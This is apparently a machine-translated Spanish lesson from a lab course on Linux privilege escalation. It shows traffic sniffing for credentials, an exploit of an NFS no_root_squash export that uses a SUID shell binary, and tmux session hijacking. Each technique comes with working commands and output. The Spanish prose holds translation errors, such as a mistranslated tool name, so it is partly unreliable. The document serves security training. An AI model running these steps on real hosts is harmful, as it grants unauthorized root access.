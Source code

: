 # Técnicas misceláneas

---

## Captura de tráfico pasivo

Si`tcpdump`Se instalan, los usuarios no privilegiados pueden capturar el tráfico de la red, incluidas, en algunos casos, las credenciales aprobadas en ClearText. Existen varias herramientas, como[redes de redes](https://github.com/DanMcInerney/net-creds)y[Pcredz](https://github.com/lgandx/PCredz)Eso se puede usar para examinar los datos que se están aprobando en el cable. Esto puede resultar en capturar información confidencial, como números de tarjetas de crédito y cadenas comunitarias SNMP. También puede ser posible capturar los hashes Net-NTLMV2, SMBV2 o Kerberos, que podrían someterse a un ataque de fuerza bruta fuera de línea para revelar la contraseña de texto sin formato. Los protocolos ClearText como HTTP, FTP, POP, IMAP, Telnet o SMTP pueden contener credenciales que podrían reutilizarse para aumentar los privilegios en el host.

---

## Privilegios NFS débiles

El sistema de archivos de red (NFS) permite a los usuarios acceder a archivos o directorios compartidos a través de la red alojada en sistemas UNIX/Linux. NFS utiliza el puerto TCP/UDP 2049. Cualquier soporte accesible se puede enumerar de forma remota emitiendo el comando`showmount -e`, que enumera la lista de exportaciones del servidor NFS (o la lista de control de acceso para sistemas de archivos) que los clientes NFS.

  Técnicas misceláneas

```shell-session
xnoxos@htb[/htb]$ showmount -e 10.129.2.12

Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```

When an NFS volume is created, various options can be set:

|Opción|Descripción|
|---|---|
|`root_squash`|Si el usuario raíz se usa para acceder a las acciones de NFS, se cambiará a la`nfsnobody`Usuario, que es una cuenta no privilegiada. Cualquier archivo creado y cargado por el usuario raíz será propiedad de la`nfsnobody`Usuario, que evita que un atacante cargue binarios con el conjunto de bits Suid.|
|`no_root_squash`|Los usuarios remotos que se conectan a la compartir como usuario raíz local podrán crear archivos en el servidor NFS como usuario root. Esto permitiría la creación de scripts/programas maliciosos con el conjunto de bits Suid.|

  Técnicas misceláneas

```shell-session
htb@NIX02:~$ cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

Por ejemplo, podemos crear un binario setUid que se ejecute`/bin/sh`Usando nuestro usuario de raíz local. Entonces podemos montar el`/tmp`Directorio localmente, copie el binario de propiedad raíz al servidor NFS y establezca el bit Suid.

Primero, cree un binario simple, monte el directorio localmente, copie y establezca los permisos necesarios.

  Técnicas misceláneas

```shell-session
htb@NIX02:~$ cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

  Técnicas misceláneas

```shell-session
htb@NIX02:/tmp$ gcc shell.c -o shell
```

  Técnicas misceláneas

```shell-session
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
root@Pwnbox:~$ cp shell /mnt
root@Pwnbox:~$ chmod u+s /mnt/shell
```

Cuando volvemos a la sesión de bajo privilegio del host, podemos ejecutar el binario y obtener un shell raíz.

  Técnicas misceláneas

```shell-session
htb@NIX02:/tmp$  ls -la

total 68
drwxrwxrwt 10 root  root   4096 Sep  1 06:15 .
drwxr-xr-x 24 root  root   4096 Aug 31 02:24 ..
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .font-unix
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .ICE-unix
-rwsr-xr-x  1 root  root  16712 Sep  1 06:15 shell
<SNIP>
```

  Técnicas misceláneas

```shell-session
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```

---

## Secuestro de sesiones de TMUX

Multiplexores terminales como[tmux](https://en.wikipedia.org/wiki/Tmux)Se puede usar para permitir que se accedan a múltiples sesiones de terminales dentro de una sola sesión de consola. Cuando no trabaja en un`tmux`ventana, podemos separar la sesión, aún dejándola activa (es decir, ejecutar un`nmap`escanear). Por muchas razones, un usuario puede dejar un`tmux`Procese ejecutándose como un usuario privilegiado, como la raíz configurada con permisos débiles, y puede ser secuestrado. Esto se puede hacer con los siguientes comandos para crear una nueva sesión compartida y modificar la propiedad.

  Técnicas misceláneas

```shell-session
htb@NIX02:~$ tmux -S /shareds new -s debugsess
htb@NIX02:~$ chown root:devs /shareds
```

Si podemos comprometer a un usuario en el`devs`Grupo, podemos adjuntar a esta sesión y obtener acceso a la raíz.

Verifique cualquier funcionamiento`tmux`procesos.

  Técnicas misceláneas

```shell-session
htb@NIX02:~$  ps aux | grep tmux

root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
```

Confirmar permisos.

  Técnicas misceláneas

```shell-session
htb@NIX02:~$ ls -la /shareds 

srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```

Revise la membresía de nuestro grupo.

  Técnicas misceláneas

```shell-session
htb@NIX02:~$ id

uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```

Finalmente, adjuntar al`tmux`sesión y confirmar privilegios raíz.

  Técnicas misceláneas

```shell-session
htb@NIX02:~$ tmux -S /shareds

id

uid=0(root) gid=0(root) groups=0(root)
```